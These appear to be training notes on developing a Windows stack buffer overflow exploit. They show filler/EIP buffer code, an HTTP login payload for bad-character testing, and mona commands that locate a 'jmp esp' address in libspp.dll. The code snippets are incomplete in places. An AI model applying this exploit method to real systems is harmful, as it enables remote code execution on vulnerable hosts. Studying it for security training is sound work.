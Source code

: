 ## 3-确认shellcode大小
确认可利用的内存大小，写入shellcode
一般shellcode350-400 bytes
关键代码，800-1500 bytes 内确认大小
```
filler = "A" * 780
eip = "B" * 4
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))
inputBuffer = filler + eip + offset + buffer
```
查看ESP，包含DDDD
DDDD 的结束减去开始位置，即可用的空间，byte单位

```
print (0x01A9745C - 0x01A97720)
-708
```

## 4-处理bad char
可能导致shellcode异常 p388

```
badchars = (
  )
try:
print  "\nSending evil buffer..."
filler = "A" * 780
eip = "B" * 4
offset = "C" * 4
inputBuffer = filler + eip + offset + badchars
content = "username=" + inputBuffer + "&password=A"

```

## 5-寻找跳板--jmp esp：

Immunity Debugger
SafeSEH319(Structured Exception Handler Overwrite, an exploit-preventative memory protection technique), ASLR, and NXCompat (DEP protection) disabled.
In other words, the executable has not been compiled with any memory protection schemes, and
will always reliably load at the same address, making it ideal for our purposes.
```
//list all dlls loaded by exe
!mona modules

msf-nasm_shell
nasm> jmp esp
00000000  FFE4              jmp esp
//search for opcodes using mona.py
!mona find -s "\xff\xe4" -m "libspp.dll"
//确认 jmp esp地址，是否包含badchars，修改python脚本
0x10090c83
```
